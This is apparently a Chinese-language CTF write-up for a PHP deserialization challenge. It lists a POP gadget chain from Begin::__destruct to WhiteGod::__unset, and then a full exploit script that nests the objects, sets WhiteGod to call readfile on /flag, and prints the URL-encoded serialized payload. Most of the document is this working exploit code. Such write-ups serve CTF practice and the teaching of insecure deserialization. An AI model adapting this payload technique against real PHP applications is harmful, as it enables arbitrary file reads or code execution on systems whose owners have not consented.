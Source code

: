 pop链子

```
Begin::__destruct -> Then::toString -> Super::__invoke -> Handle::__call -> CTF::end -> WhiteGod::__unset
```

由于链子调用中成员属性有private和protected
 我们用construct方法去调用链子，最后再使用url编码绕过
 exp

```php
<?php
class Begin{    
    public $name;    
    public function __construct($a)    
    {        
        $this->name = $a;    
    }
}
class Then{    
    private $func;    
    public function __construct($a)    
    {        
        $this->func= $a;    
    }
}
class Handle{    
    protected $obj;    
    public function __construct($a)    
    {        
        $this->obj = $a;    
    }
}
class Super{    
    protected $obj;    
    public function __construct($a)    
    {        
        $this->obj = $a;    
    }
}
class CTF{    
    public $handle;    
    public function __construct($a)    
    {        
        $this->handle = $a;    
    }
}
class WhiteGod{    
    public $func;    
    public $var;    
    public function __construct($a, $b)    
    {        
        $this->func = $a;        
        $this->var = $b;    
    }
}
$a = new Begin(new Then(new Super(new Handle(new CTF(new WhiteGod("readfile","/flag"))))));
echo urlencode(serialize($a));
```
